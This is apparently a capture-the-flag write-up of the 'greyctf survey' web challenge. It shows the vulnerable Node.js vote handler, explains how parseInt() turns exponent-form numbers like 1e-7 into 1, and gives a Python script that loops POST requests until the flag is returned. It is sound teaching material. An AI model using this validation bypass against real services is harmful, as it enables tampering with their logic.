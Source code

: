 ```yaml
---
title: Greyctf Survey Writeup
date: 2024-04-25
categories:
  - Writeups
tags:
  - Grey cat the flag
---
```


# Intro

- Recently I have participated in Grey Cat The Flag as a member in F1ag dot txt, and I counter some questions which are quite interesting. One of them is greyctf survey

# 0x01

### Source code:

index.js
```javascript
app.post('/vote', async (req, res) => {
    const {vote} = req.body;
    if(typeof vote != 'number') {
        return res.status(400).json({
            "error": true,
            "msg":"Vote must be a number"
        });
    }
    if(vote < 1 && vote > -1) {
        score += parseInt(vote);
        if(score > 1) {
            score = -0.42069;
            return res.status(200).json({
                "error": false,
                "msg": config.flag,
            });
        }
        return res.status(200).json({
            "error": false,
            "data": score,
            "msg": "Vote submitted successfully"
        });
    } else {
        return res.status(400).json({
            "error": true,
            "msg":"Invalid vote"
        });
    }
})

```

From the source code, we can see that we are able to send data by using post method to the endpoint '/vote'. And the data will be in json format:  {'votes': value}

The value need to be send will have to be in between 1 and -1, and it will be parsed into an integer and will be added to the 'score' variable, and once the value of score exceeds 1. It will return with flag

# 0x02

As such, we can use try to use burp to intercept the packet first and post a random data that is between 1 and -1 . But it turns out that the value it returns us is the exact same.

## parseInt() function

In Javascript, the parseInt() function parses a string argument and returns an integer of the specified radix (the base in mathematical numeral systems)(https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/parseInt)

It has two parameter(here we only require to use one): String and radix(we do not need use this one at this circumstance)

Tips: 
1. If the string start with a "0x", Javascript will interpret it as a hexadecimal number
2. If the typeof value is not a string, Javascript will implicitly call the `toString()` to convert it into a string by default.

The parseInt() will starts parsing from the beginning of the string until it encounters a non-numeric character or reaches the end of the string with whitespace ignoring . If the first non-whitespace character is not numeric character, plus or negative. It will return a value of NaN.

For instance:

```javascript:
console.log(parseInt('123abc'))//123
console.log(parseInt(' 1'))//1
console.log(parseInt('a'))//NaN
```

Similarly, if the value is a decimal(float), it will return the number before decimal point, as '.' is considered as non-numeric

```javascript
console.log(parseInt(0.05))//0
```

It will return a value of 0, and that explains why the score remain exact same why we post a value(-1 < value < 1), as it will be parsed to 0.

# 0x03

## Standard form

However, in javascript, when a number has more than 6 decimal places, it will automatically transformed into standard form.

For instance:

```javascript
console.log(0.0000001)//1e-7
```


Therefore, back to the parseInt() function again, once we post a value that exceeds 6 decimals places, parseInt() lt will only parse the part of the string before the "e" character:

For instance:

```javascript
0.0000001 -> 1e-7
```

The first number that parseInt() will parse will be 1 and end before the "e" character

As such, we can use this and post a data that is more than 6 decimal places.

![](/assets/img/Grey_cat_the_flag/flag.png)

By doing it, we can find the value changing, and by doing it twice, we are able to make the score more than 1.

As it exceeds 1, it returns us with the flag.

# 0x04
## Python

```python
exp.py

#!/usr/bin/python3
import requests
import json

def solve():
    try:
        # url
        url = 'http://challs.nusgreyhats.org:33334/vote'
        # header
        header = {
            "Content-Type": "application/json; charset=utf-8"
        }
        # payload
        payload = '''
        {"vote":0.0000000000000000001}    
        '''
        reponse = requests.post(url, data=payload,headers=header)
        # if the score still do not exceeds 1
        # flag format: "grey{...}"
        while "grey{" not in reponse.text:
            reponse = requests.post(url, data=payload,headers=header)
        # flag 
        flag = json.loads(reponse.text)['msg']
        print(flag)
    except Exception as e:
        print(e)

if __name__ == "__main__":
    solve()

```


Reference: 
https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/parseInt
http://t.csdnimg.cn/EU6uo
http://t.csdnimg.cn/yGCjd
